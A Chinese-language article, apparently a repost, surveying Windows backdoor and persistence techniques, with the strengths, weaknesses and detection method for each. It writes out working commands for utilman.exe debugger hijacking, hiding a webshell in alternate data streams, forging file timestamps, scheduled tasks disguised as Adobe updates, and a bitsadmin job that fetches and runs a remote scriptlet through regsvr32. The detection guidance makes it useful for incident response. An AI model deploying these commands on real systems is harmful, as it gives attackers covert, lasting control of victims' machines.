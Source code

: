 ## windows常见backdoor、权限维持方法及排查技术

### 什么是Persistence？ [^1]

### 常见backdoor和persistence方式方法

1. #### 系统工具替换后门 [^2]

   ```powershell
   # Image劫持辅助工具管理器（utilman.exe, 快捷键 Win + U）
   # 注册表更改命令详见 `reg.exe` 应用程序
   REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
   # 结果就是只要按键盘 Win + U 就可以打开 cmd 窗口，而不是辅助工具管理器窗口
   ```

   - 类似的程序有osk.exe（屏幕键盘程序）、Narrator.exe（讲述人程序）、Magnify.exe（放大镜程序）等
   - 优点：简单
   - 缺点：易被检测
   - 排查：工具autoruns [^3]

2. #### 文件隐藏

   1. ##### attrib命令隐藏 [^4]

      `attrib +r +s +h webshell.php`

      - 优点：简单

      - 缺点：暂无
      - 排查：使用 attrib 命令，dir 命令（dir /a) 或者D盾

   2. ##### 使用ADS流隐藏webshell

      `echo "hello world" > demo.c:flags.txt`

      `echo "hello" > :key.txt` [^5]

      `notepad demo.c:flags.txt`

      `type demo.c:flags.txt`

      - ```powershell
        # 此时应该注意修改文件的timestamp，可使用如下的powershell命令或者使用NewFileTime工具
        # $(Get-Item ).creationtime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # $(Get-Item ).lastaccesstime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # $(Get-Item ).lastwritetime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # example：
        # Set the last-access time for a file aaa.csv to the current time:  
        $(Get-Item aaa.csv).lastwritetime=$(Get-Date)
        # Set the creation time of a file foo.txt to November 24, 2015, at 6:00am: 
        $(Get-Item foo.txt).creationtime=$(Get-Date "11/24/2015 06:00 am")
        ```

      - 优点：较难检测
      - 缺点：暂无
      - 排查： `dir /r`
      - Ref : [利用ADS隐藏webshell](https://www.cnblogs.com/xiaozi/p/7610984.html) 、[Windows ADS在渗透测试中的妙用](https://www.freebuf.com/articles/terminal/195721.html)

3. #### 计划任务

   `schtasks /delete /tn "AdobeReaderUpdate" /f`

   `schtasks /create /ru "System" /tn "AdobeReaderUpdate" /sc Weekly /d * /st 18:00:00 /tr "powershell.exe C:\Windows\System32\drivers\en-US\etc\Line.ps1"`

   `SCHTASKS /Create /RU "SYSTEM" /tn "AdobeReaderUpdateEnd" /sc Weekly /d MON,TUE,WED,THU,FRI /st 06:00:00 /tr "powershell.exe Stop-Process -Name $processname"`

   `taskschd.msc`

   - 优点：简单
   - 缺点：易被检测
   - 排查： `schtasks /query `命令进行查询或者通过计算机的管理查看，注意在windows的中文版系统中，schtasks命令需要切换字符为美国英语格式，使用命令`chcp 437`，或者直接工具autoruns

4. #### 开机启动项

   ```powershell
   HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
   HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
   ...
   ```

   - 优点：重启权限维持
   - 缺点：一般杀软均会拦截
   - 排查：autoruns

5. #### 服务

   `sc create [ServerName] binPath= BinaryPathName`

   - 优点：重启权限维持
   - 缺点：一般杀软会拦截
   - 排查：工具autoruns

6. #### waitfor.exe

   - 不支持自启动，但可远程主动激活，后台进程显示为waitfor.exe
   - `certutil -encode infile outfile`
   - `certutil -decode infile outfile`
   - Ref : [详细参考](https://github.com/3gstudent/Waitfor-Persistence)
   - 优点：远程主动激活
   - 缺点：有waitfor进程
   - 排查：通过Process Explorer （procexp）工具查看是否有waitfor.exe进程，并进一步查看启动参数等

7. #### bitsadmin后门 [^6]

   ```powershell
   # 创建一个下载任务：
   bitsadmin /create backdoor
   # 添加文档：
   bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
   # 设置下载成功之后要执行的命令：
   bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
   # 执行任务：
   bitsadmin /Resume backdoor
   ```

   - Ref : [bitsadmin-backdoor-权限维持后门](https://paper.tuisec.win/detail/77720db7618e92c)
   - 优点：系统自带无需上传
   - 缺点：免杀效果一般
   - 排查：bitsadmin /list /verbose

8. #### WMI后门

   - Ref: [参考文档](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)、[Powersploit](https://github.com/PowerShellMafia/PowerSploit/blob/9e771d15bf19ab3c2ac196393c088ecdab6c9a73/Persistence/Persistence.psm1)
   - 优点：无文件，后门在系统重启五分钟之内触发且是system权限，相对来说难以排查
   - 缺点：暂无
   - 排查：工具autoruns

9. #### COM劫持

   - Ref: [freebuf](https://www.freebuf.com/articles/system/115241.html)、[CLR](https://www.4hou.com/technology/6863.html) 
   - 优点：隐藏性较好,autoruns查不到
   - 缺点：暂无
   - 排查：检查环境变量和注册表键值

10. #### meterpreter 权限维持 [^7]

  - `metsvc `是开机自启动的服务型后门
  - persistence模块是先上传vbs脚本并执行vbs脚本修改注册表`HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`从而完成自启动
  - Ref : [metsvc代码](https://github.com/rapid7/metasploit-framework/blob/76954957c740525cff2db5a60bcf936b4ee06c42/scripts/meterpreter/metsvc.rb)、[persistence代码](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/persistence_exe.rb)
  - 优点：开机自启动
  - 缺点：容易被杀软杀
  - 排查：autoruns

11. #### Empire persistence模块 [^8]

    - Ref ： [参考文章](https://www.harmj0y.net/blog/empire/nothing-lasts-forever-persistence-with-empire/)
    - 优点：基本集成了大部分的权限维持方法
    - 缺点：暂无
    - 排查：工具autoruns

12. #### 进程注入 [^9]

    - Ref : [Hunting empire](https://holdmybeersecurity.com/2019/02/27/sysinternals-for-windows-incident-response/)
    - 优点：较难排查
    - 缺点：暂无
    - 排查：工具process explorer 、process monitor

### other

- 还有像是dll劫持、一些软件的插件后门、office后门等
- 更多windows backdoor方面最新文章可以关注国外安全研究员Casey Smith@subTee和Adam@Hexacorn

[原文](https://xz.aliyun.com/t/4842)

---

[^1]: 持久化是指即使在创建它的进程停止或其运行的机器断电之后仍然存在的对象和进程特性。当一个对象或状态被创建并且需要持久时，它将保存在非易失性存储位置（如硬盘驱动器）中，而不是临时文件或易失性随机存取存储器（RAM）
[^2]: Windows提供了一个命令replace.exe，通过它我们可以替换系统文件
[^3]: Windows Sysinternals工具集里的一个软件，可显示在系统启动或登录期间配置要运行的程序，以及启动各种内置Windows应用程序
[^4]: windows自带命令行工具attrib用来显示或更改文件属性
[^5]: 编辑时需退到上级目录进行查看 `dir /r`，删除时需要将宿主文件删除或使用 WinHex工具或压缩后解压替换
[^6]: Bitsadmin从win7之后操作系统就默认包含，可以用来创建上传或者下载任务。Bistadmin可以指定下载成功之后要进行什么命令。后门就是利用的下载成功之后进行命令执行
[^7]: meterpreter中的权限维持技术有两种，一种是metsvc的后门(服务后门)，另外一种是persistence(注册表后门)
[^8]: Empire是一款功能非常强大的后渗透攻击框架。其中的persistence模块提供了一系列权限维持方法。工具还把权限维持分为了四大类，userland(普通权限)、elevated(需要高权限)、powerbreach(内存权限维持，重启后失效)、miscellaneous(其它)
[^9]: 准确来说进程注入不是后门技术或者权限维持技术，而是一种隐藏技术，这里简单说一下empire的psinject、cobaltstrike的inject和meterpreter中的migrate进程注入，一般可以注入到像是lsass或者explorer这样的进程当中，相对比较隐蔽，较难排查